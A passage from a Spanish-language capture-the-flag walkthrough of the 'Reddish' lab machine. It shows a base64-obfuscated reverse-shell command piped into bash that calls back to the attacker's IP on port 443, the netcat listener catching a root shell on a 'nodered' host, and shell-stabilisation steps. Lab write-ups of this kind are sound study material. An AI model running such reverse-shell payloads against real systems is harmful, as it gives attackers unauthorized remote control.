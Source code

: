 ### Así que en el comando vamos a hacerlo de esta manera

### echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE0LjExNi80NDMgMD4mMQ== | base64 -d | bash

![8.png](/assets/images/2022-05-10-Reddish/8.png)

### no sin antes poner nuestra máquina a la escucha y ejecutamos igual que cómo lo realizamos con nuestra prueba al realizar un Ping y vemos que nos devuelve una Reverse Shell, como root, pero no es de nuestra máquina, si no de otra máquina llamada nodered

```abap
┌─[root@parrot]─[/mnt/angussMoody/Machines/Reddish]
└──╼ #rlwrap nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.116] from (UNKNOWN) [10.129.224.78] 57796
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
id && whoami && hostname
id && whoami && hostname
uid=0(root) gid=0(root) groups=0(root)
root
nodered
root@nodered:/node-red#
```

### Vamos a realizar un tratamiendo, para que tengamos una Shell Interactiva, en este caso lo vamos a hacer con bash

```abap
┌─[root@parrot]─[/mnt/angussMoody/Shell]
└──╼ #cat bashshelllcompleta.txt 
───────┬──────────────────────────────────────────────────────────────────────────
       │ File: bashshelllcompleta.txt
───────┼──────────────────────────────────────────────────────────────────────────
   1   │ script /dev/null -c bash
   2   │ 
   3   │ ctrl + z
   4   │ 
   5   │ stty raw -echo;fg
   6   │ 
   7   │ reset
   8   │ 
   9   │ xterm
  10   │ 
  11   │ export TERM=xterm
  12   │ 
  13   │ SHELL=bash
  14   │ 
  15   │ stty rows 44 cols 166
```
